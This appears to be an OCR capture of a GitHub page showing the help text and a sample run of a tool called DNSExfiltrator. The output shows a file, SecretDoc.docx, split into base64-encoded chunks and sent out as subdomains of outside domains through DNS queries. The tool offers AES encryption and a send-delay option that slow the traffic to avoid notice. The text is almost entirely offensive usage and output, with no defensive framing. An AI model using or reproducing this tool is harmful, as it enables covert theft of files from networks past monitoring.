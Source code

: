\begin{tcblisting}{listing only}
cd DNSExfiltrator
python3 main.py -h
usage: main.py [-h] [-d DOMAIN] [-f FILENAME] [-a AESENCRYPT] [-t SENDDELAY]

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain required to append malformed subdomain to
  -f FILENAME, --filename FILENAME
                        Optional - Instead of a static phrase, a file can be segmented and pushed
  -a AESENCRYPT, --aesencrypt AESENCRYPT
                        Apply AES encryption before base64, specifying a 16 bit key - e.g give1stclassPlss
  -t SENDDELAY, --senddelay SENDDELAY
                        Slow rate of fire of UDP messages (seconds)

                        
python3 main.py -f SecretDoc.docx

TRANSMISSION MAY HALT FOR A SECOND OR SO OCCASIONALLY, BE PATIENT!

FILE TUNNEL MODE ENABLED - THE FILE WILL BE TRANSMITTED VIA DNS REQUESTS

Domain to tag: spnutn.com
DNS Server: 192.168.1.1:53
File Fragmented: SecretDoc.docx
Provided: b'PK\n'     Encoded URL: YidQS1x4MDNceDA0XG4n.spnutn.com
Sent DNS exfiltrated portion!

Domain to tag: htzsfdcx.com
DNS Server: 192.168.1.1:53
File Fragmented: SecretDoc.docx
Provided: b'\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}textbackslash{}x87N\textbackslash{}textbackslash{}xe2@\textbackslash{}textbackslash{}x00'     Encoded URL: YidceDAwXHgwMFx4MDBceDAwXHgwMFx4ODdOXHhlMkBceDAwJw==.htzsfdcx.com
Sent DNS exfiltrated portion!

Domain to tag: htmrbek.com
DNS Server: 192.168.1.1:53
File Fragmented: SecretDoc.docx
Provided: b'\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00'     Encoded URL: YidceDAwXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwXHgwMFx4MDBceDAwJw==.htmrbek.com
Sent DNS exfiltrated portion!

Domain to tag: kyljdnh.com
DNS Server: 192.168.1.1:53
File Fragmented: SecretDoc.docx
Provided: b'\textbackslash{}x00\textbackslash{}t\textbackslash{}x00\textbackslash{}x00\textbackslash{}x00docPr'     Encoded URL: YidceDAwXHRceDAwXHgwMFx4MDBkb2NQcic=.kyljdnh.com
Sent DNS exfiltrated portion!

...

\end{tcblisting}

